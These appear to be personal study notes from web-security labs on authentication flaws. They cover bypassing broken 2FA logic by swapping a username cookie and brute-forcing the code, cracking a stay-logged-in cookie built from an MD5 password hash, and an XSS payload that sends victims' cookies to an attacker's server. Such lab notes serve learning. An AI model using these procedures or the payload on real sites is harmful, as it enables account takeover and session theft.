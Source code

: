 # **Vulnerabilities in multi-factor authentication:**

Once logged-in without providing 2fa code user might be able to access other page with only providing the passwrod.

And in some websites, the servers will use same cookie for all users, where it changes only username in that cookie according to the user. We can use this as a flawed mfa.

## **Lab: 2FA broken logic**

Here first we login using our own credentials in POST:/login (cookie : session-username)

Then we get GET:/login2 (cookie : session-username) → Here even if we remove session and only put username we will go to this page, so we can modify the username to victim username here

Then once we go to emailclient and get out mfa code and paste it here

We POST:/login2 (cookie : session-username, mfa-code:$1332$) →  Here even if we remove session and only put username we will go to this page, so we can modify the username to victim username here to go to main authenticated page.

But to go to main authenticated page we need to bruteforce mfa code 4 digit number, can do it by burp-intruder. For once request with username:victim, and proper mfacode you’ll get 302 status. From that response fetch the proper session.

And in website while loggin in your main page with your credential, just change the session cookie and reload the page. BOommm!!!

# Vulnerabilities in other mechanisms:

Some websites put this robust mechanisms only in login/signup page, but not in password reset page.

**Keeping users logged in →** Here some websites generate temporary cookie session to store permanently to keep the user logged in even after closing the browser. That temporary cookie should be random, but misconfigured-websites will generate this cookie based on the username-timestamp-password.  If attacker understands the formula of this in his own account, he can generate the cookie for his victim’s account.

## **Lab: Brute-forcing a stay-logged-in cookie:**

Here when we check with our login credentials, we logged in and clicked stay-logged in option.

Then we intercepted our request in burp, there is an additional cookie → set-session cookie: while decoding it in base64 it gives username:salt-hash , while cracking that hash in crackstation MD5 → it gives exact password. 

So this cookie can be bruteforced

After login using our credentials, we will receive response GET:/myaccount page → here remove 

cookie : set-logged-session=somevalue1; session=somevalue2;

pass this to intruder by cookie : set-logged-session=$somevalue1$; session= (as session will be setted by itself)

In intruder paste password in payloads and apply rules as per the encrypted formula. And start the attack

## XSS attack in common webpages of a web-app to fetch cookie

Attacker and victim, share same webpage with xss vulnerability. Each user have separate server to view their log. Attacker can post in xss comments attack like <script>

```bash
<script>document.location="attacker's server ip"+document.cookie</script>
```

When victim go through this attack, his cookie will be stored in attacker’s server.

